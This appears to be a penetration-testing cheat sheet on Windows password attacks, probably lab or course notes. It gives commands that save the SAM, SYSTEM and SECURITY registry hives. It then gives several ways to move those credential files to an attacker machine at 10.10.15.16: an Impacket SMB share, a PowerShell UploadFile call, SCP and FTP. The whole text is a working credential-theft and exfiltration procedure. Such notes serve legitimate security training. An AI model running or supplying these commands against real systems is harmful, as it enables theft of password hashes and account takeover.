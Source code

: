 # Windows Password Attacks

## Overview
Windows stores password hashes in various locations that can be extracted and cracked with administrative access. This guide covers techniques for extracting and cracking Windows password hashes.

## Registry Hives

### Key Registry Locations
| Registry Hive | Location | Description |
|---------------|----------|-------------|
| **HKLM\SAM** | `C:\Windows\System32\config\SAM` | Local user password hashes |
| **HKLM\SYSTEM** | `C:\Windows\System32\config\SYSTEM` | System boot key (needed to decrypt SAM) |
| **HKLM\SECURITY** | `C:\Windows\System32\config\SECURITY` | LSA secrets, cached domain creds (DCC2), DPAPI keys |

### Backing Up Registry Hives
```cmd
# Run as Administrator
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

## File Transfer Methods

### Using Impacket SMB Server
```bash
# On attacker machine - start SMB server
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /tmp/

# On target Windows machine - transfer files
move sam.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
```

### Other Transfer Methods
```bash
# PowerShell download
powershell -c "(New-Object Net.WebClient).UploadFile('http://10.10.15.16:8000/sam.save', 'C:\sam.save')"

# SCP (if SSH enabled)
scp C:\sam.save user@10.10.15.16:/tmp/

# FTP
ftp 10.10.15.16
put sam.save
put system.save
put security.save
```
